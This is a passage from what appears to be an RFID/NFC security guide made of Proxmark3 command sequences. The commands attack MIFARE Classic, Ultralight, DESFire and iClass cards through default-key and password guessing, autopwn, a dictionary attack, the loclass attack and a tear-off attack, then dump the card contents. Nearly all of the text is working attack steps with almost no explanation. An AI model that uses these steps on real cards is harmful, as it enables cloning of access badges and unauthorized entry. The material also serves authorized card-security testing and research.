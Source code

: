 ```bash
hf mf chk *1 ? d

# Step 5: Autopwn (combines multiple attacks)
hf mf autopwn

# Step 6: Full dump after successful key recovery
hf mf dump
```

### MIFARE Ultralight Analysis
```bash
# Step 1: Basic information
hf mfu info

# Step 2: Attempt dump without password
hf mfu dump

# Step 3: If password protected, try common passwords
hf mfu dump -k FFFFFFFF  # Default
hf mfu dump -k 00000000  # Empty

# Step 4: Generate passwords from UID
hf mfu pwdgen -r

# Step 5: Try generated passwords
hf mfu dump -k [generated_password]

# Step 6: Tear-off attack if supported
hf mfu otptear
```

### DESFire Analysis
```bash
# Step 1: Basic information
hf mfdes info

# Step 2: Application enumeration
hf mfdes enum

# Step 3: Try default keys
hf mfdes auth -n 0 -t AES -k 00000000000000000000000000000000
hf mfdes auth -n 0 -t 3DES -k 000000000000000000000000

# Step 4: If successful, dump applications
hf mfdes dump
```

### iClass Analysis
```bash
# Step 1: Basic information
hf iclass info

# Step 2: Dictionary attack
hf iclass chk f iclass_default_keys.dic

# Step 3: Loclass attack
hf iclass loclass

# Step 4: Dump if successful
hf iclass dump
```
